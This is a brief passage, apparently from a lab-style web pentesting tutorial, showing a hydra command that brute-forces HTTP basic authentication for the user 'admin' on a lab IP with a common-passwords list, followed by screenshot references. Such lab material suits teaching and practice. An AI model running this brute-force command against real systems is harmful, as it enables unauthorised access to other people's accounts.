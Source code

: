 **/basic**

![Alt text](ch6_page_images/image-133.png)

Let's attack it with **hydra**. We know the user "admin".

```bash
hydra -l admin -P /root/Desktop/wordlists/100-common-passwords.txt 192.86.45.3 http-get /basic/
```
![Alt text](ch6_page_images/image-134.png)

We enter the credentials.

![Alt text](ch6_page_images/image-135.png)
